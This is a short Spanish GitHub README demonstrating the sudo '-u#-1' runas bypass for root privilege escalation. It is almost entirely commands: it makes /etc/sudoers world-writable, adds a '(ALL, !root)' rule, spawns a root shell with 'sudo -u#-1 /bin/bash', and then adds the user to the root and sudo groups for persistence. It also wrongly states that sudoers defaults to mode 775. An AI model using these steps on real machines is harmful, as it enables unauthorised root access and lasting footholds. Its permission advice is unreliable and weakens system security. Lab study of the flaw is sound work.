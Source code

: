 <img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/sudo/blob/master/sudo.png">

#1.- Por defecto /etc/sudoers tiene permisos chmod 775. Intentamos para editar sin problemas el fichero sudoers $chmod 777 /etc/sudoers  y volvemos a restablecer después los privilegios chmod 755 /etc/sudoers. O Editamos el fichero /etc/sudoers con visudo: 

$usermod -aG sudo antonio

$gpasswd -a antonio sudo

$sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#5.- Modificamos la línea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$chmod 755 /etc/sudoers

$sudo -u#-1 /bin/bash

#whoami

root

#7.- ya somos root!

#8.- Otro si: añadimos en la línea sudo de /etc/group a antonio y nos hacernos persistentes en la maquina:

usermod -aG root antonio

usermod -aG sudo antonio

#9.- Probamos

exit

$sudo antonio

$sudo su

#10.- ya somos del grupo sudo y podemos elevar a root!

Editamos y eliminamos de sudoers la linea
antonio ALL=(ALL, !root) ALL
